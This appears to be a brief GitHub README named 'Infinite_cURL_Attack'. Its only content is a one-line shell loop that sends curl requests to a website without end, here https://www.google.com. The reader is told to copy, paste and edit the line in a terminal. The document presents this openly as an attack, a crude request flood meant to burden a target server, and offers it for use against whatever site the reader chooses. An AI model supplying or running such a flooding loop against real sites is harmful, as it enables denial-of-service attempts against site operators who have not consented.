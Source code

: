 # Infinite_cURL_Attack
Infinite cURL Attack
**USAGE** : Copy-Paste-Edit the following code in the Terminal/CMD.
```
while (true); do curl -v --header "Connection: keep-alive" "https://www.google.com"; done;
```
